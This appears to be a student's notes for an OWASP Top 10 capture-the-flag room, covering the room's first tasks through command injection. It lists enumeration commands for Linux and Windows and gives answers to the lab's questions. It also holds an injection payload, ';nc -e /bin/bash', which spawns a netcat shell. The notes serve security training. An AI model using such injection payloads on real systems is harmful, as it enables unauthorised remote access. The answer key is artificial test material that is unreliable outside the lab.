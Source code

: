 # OWASP Top 10

## [Task 1] Introduction

## [Task 2] Accessing machines

## [Task 3] Daily Prizes

## [Task 4] [Day 1] Injection

## [Task 5] [Day 1] OS Command Injection
- `whoami`
- `;nc -e /bin/bash`

## [Task 6] [Day 1] Command Injection Practical
Commands to try
Linux
- `whoami`
- `id`

- `ifconfig/ip addr`
- `uname -a`
- `ps -ef`

Windows
- `whoami`
- `ver`
- `ipconfig`
- `tasklist`
- `netstat -an`

1. What strange text file is in the website root directory?
  - drpepper.txt
2. How many non-root/non-service/non-daemon users are there?
  - 0
3. What user is this app running as?
  - www-data
4. What is the user's shell set as?
  - /usr/sbin/nologin
5. What version of Ubuntu is running?
  - 18.04.4
6. Print out the MOTD. What favorite beverage is shown?
  - dr pepper

